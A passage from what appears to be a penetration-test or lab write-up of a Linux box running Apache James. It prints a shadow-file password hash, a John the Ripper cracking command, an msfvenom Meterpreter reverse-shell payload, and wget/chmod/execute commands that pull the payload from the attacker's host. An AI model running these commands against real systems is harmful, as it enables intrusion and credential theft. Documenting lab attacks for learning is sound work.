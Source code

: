 
*Key Finding*
PSPY detected that the `/opt/james-2.3.2.1/bin/run.sh` script was being executed automatically, potentially by a cron job. However, it was confirmed that this script uses *absolute paths*, which prevents a `PATH` manipulation attack.
![PSPY output showing `run.sh`](/assets/images/posts/atrium-report/)



### **Attempt to Crack Hashes**

*Cracking the Hash from `/etc/shadow`*
During the enumeration phase, a hash for the user `deloitte` was found in the `/etc/shadow` file. This file contains encrypted password information for user accounts. 

**Hash:** `deloitte:$1$9ABWnCp/$jCaUM7F57.NTzp60E2x2d/:17507:0:99999:7:::`

This hash was saved to a file and passed to *John the Ripper* to attempt cracking it using the `rockyou.txt` wordlist, a common dictionary for brute-force attacks.

```Bash
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```

As seen in the screenshot, the cracking process was initiated. This is a standard procedure in post-exploitation to obtain plaintext passwords and potentially gain access to other user accounts.



# 4. 💉Creating and Executing the Payload in `/tmp`

#### **Generating the Meterpreter Payload**

To escalate from a low-privileged shell to a more robust **Meterpreter** session, a payload was generated using **MSFvenom**. The payload was an ELF executable designed for a Linux x64 architecture, configured to connect back to the attacker's machine.
```Bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.21 LPORT=4444 -f elf > s.elf
```

The payload file `s.elf` was then made executable and served from a temporary Python HTTP server on the attacker's machine.

#### **Transferring and Executing the Payload**

On the victim's machine, the payload was downloaded to the `/tmp` directory, a common writable location. It was then granted executable permissions and run, which initiated a callback to the Metasploit handler.

```Bash
cd /tmp
wget http://192.168.0.21:8/s.elf
chmod +x s.elf
./s.elf
```

---
